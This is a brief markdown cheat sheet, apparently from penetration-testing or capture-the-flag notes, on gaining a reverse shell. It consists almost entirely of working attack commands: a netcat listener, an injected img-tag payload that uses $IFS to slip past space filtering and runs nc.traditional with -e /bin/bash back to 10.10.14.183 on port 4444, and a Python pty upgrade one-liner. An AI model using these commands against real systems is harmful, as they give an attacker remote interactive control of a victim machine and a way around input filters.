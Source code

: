 # Reverse Shell



#### Gaining Reverse Shell

**Run listner**

```text
nc -nlvp 4444
```

**In bash, $IFS can be used as a replacement for the space character.**

**Target Machine**

```text
<img src=http://10.10.14.183/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.14.183'$IFS'4444')>
```

**Attacker Machine**

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


